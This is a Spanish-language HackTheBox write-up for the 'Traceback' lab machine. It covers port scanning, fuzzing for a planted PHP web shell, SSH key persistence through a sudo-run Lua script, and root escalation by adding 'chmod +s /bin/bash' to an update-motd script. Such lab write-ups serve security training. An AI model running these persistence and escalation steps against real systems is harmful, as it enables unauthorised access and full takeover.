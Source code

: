```yaml
---
title: HackTheBox - Traceback
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Update-Motd Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Traceback/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Traceback Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Information Leakage, Update-Motd Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Traceback/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Traceback/02-versions.png)

c. Al inspeccionar el código fuente de la página web, veremos un mensaje

![](/assets/images/HTB/Easy/Traceback/03-web.png)

* Aquí nos da la pista de [Some of the best web shells](https://github.com/TheBinitGhimire/Web-Shells), este es un repositorio que cuenta con múltiples web shell en php, por lo que, fuzzearemos por los nombres de estas en el servicio web

    ```bash
    ❯ wfuzz -c -t 100 --hc=404 -w ./shells.txt 'http://10.10.10.181/FUZZ/'

    <SNIP>
    000000015:   200        58 L     100 W      1261 Ch     "smevk.php" 
    ```

d. Con esta web shell descubierta nos entablamos una reverse shell (Las credenciales válidas para la webshell son `admin:admin`)

![](/assets/images/HTB/Easy/Traceback/04-reverse.png)

### Escalada de Privilegios 💹

a. Para maniobrar cómodamente generemos un par de claves id_rsa

```bash
webadmin@traceback:/home/webadmin/.ssh$ ssh-keygen
webadmin@traceback:/home/webadmin/.ssh$ cat id_rsa.pub > authorized_keys
```

* Ahora nos copiamos la clave privada y nos podemos conectar por ssh

b. Leemos la nota de nuestro directorio y también nuestro fichero **.bash_history**

```bash
webadmin@traceback:~$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.

webadmin@traceback:~$ cat .bash_history 
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
```

> Podemos ejecutar cualquier script de lua como el usuario **sysadmin**
{: .prompt-info }

c. Ahora, generamos un par de claves **id_rsa** en nuestra máquina de atacante y copiaremos el fichero **id_rsa.pub** para copiarlo en `/home/sysadmin/.ssh/authorized_keys` y podernos conectar por SSH como el usuario sysadmin

```bash
❯ ssh-keygen
❯ cat id_rsa.pub | xclip -sel clip
```

* Ahora crearemos el script de lua que nos permitirá realizar todo lo descrito anteriormente

    ```lua
    local comando = "echo -n '[Clave id_rsa.pub]' > /home/sysadmin/.ssh/authorized_keys"

    local handle = io.popen(comando)
    local resultado = handle:read("*a") 

    handle:close()

    print("Salida del comando:")
    print(resultado)
    ```

* Finalmente ejecutamos el script como sysadmin y ya nos podremos conectar con nuestra clave privada al servicio SSH

    ```bash
    webadmin@traceback:/tmp$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
    ---------------------------------------------------------------------------
    ❯ ssh sysadmin@10.10.10.181 -i id_rsa
    $ bash
    sysadmin@traceback:~$ 
    ```

d. Buscamos ficheros en los que tengamos capacidad de escritura

```bash
sysadmin@traceback:~$ find / -writable 2>/dev/null | grep -vE "^/proc|^/run|^/lib|^/dev|^/sys"
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
<SNIP>
```

* Al buscar formas de escalar privilegios encontramos este [post](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/)

e. Inyectamos un comando para darle permiso SUID a la bash. Luego nos desconectamos y conectamos al servicio SSH para que el comando se ejecute

```bash
sysadmin@traceback:~$ echo "chmod +s /bin/bash" >> 00-header
sysadmin@traceback:~$ exit
-------------------------------------------------------------
❯ ssh sysadmin@10.10.10.181 -i id_rsa
-------------------------------------------------------------
$ bash -p
bash-4.4# whoami
root
```